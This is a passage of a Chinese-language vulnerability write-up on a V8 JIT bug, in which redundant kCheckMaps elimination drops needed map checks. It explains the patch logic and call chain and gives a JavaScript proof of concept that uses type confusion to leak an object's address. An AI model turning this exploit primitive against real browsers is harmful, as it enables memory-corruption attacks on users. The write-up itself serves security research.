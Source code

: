 ```c
     }
```

补丁引入了一个kCheckMaps的优化策略，优化的原理：循环遍历check 链表，当前面的节点已经kCheckMaps, 则消除当前的节点的检查。

漏洞函数调用链：

```c
Reduction RedundancyElimination::Reduce(Node* node)
    ->case IrOpcode::kCheckMaps:
	->ReduceCheckNode(node);
		->checks->LookupCheck(node)
            ->IsCompatibleCheck(check->node, node)  // 漏洞补丁引入的函数
            	->else if (a->opcode() == IrOpcode::kCheckMaps && b->opcode() == IrOpcode::kCheckMaps)
                    -> ZoneHandleSet<Map> const& a_maps = CheckMapsParametersOf(a->op()).maps();
					-> ZoneHandleSet<Map> const& b_maps = CheckMapsParametersOf(b->op()).maps();
					-> if (!b_maps.contains(a_maps)) {
                        return false;
                    //当第二个参数结点的maps包含第一个结点的maps时,则认为这两个结点是“兼容”的，即可去除后面的检查。
            
```

PoC代码：

```javascript
const buf = new ArrayBuffer(8);
const f64 = new Float64Array(buf);
const u32 = new Uint32Array(buf);
// Floating point to 64-bit unsigned integer
function f2i(val)
{
    f64[0] = val;
    let tmp = Array.from(u32);
    return tmp[1] * 0x100000000 + tmp[0];
}
function hex(i)
{
    return i.toString(16).padStart(16, "0");
}

var obj = {x:1.1, y:2.2};

let o = {a: 13.37, b: 14.47};

function triggerReadTypeConfuse(o, callback) {
    var tmp = o.a;
    callback();
    return o.b;
}
function evil() {
    o.b = obj
}
for(let i=0; i<100000; i++) {
    triggerReadTypeConfuse(o, ()=>1);
    triggerReadTypeConfuse(o, ()=>2);
    triggerReadTypeConfuse(o, ()=>3);
}

let addr = f2i(triggerReadTypeConfuse(o, evil));

console.log("obj addr: 0x"+hex(addr));

%DebugPrint(obj);
```
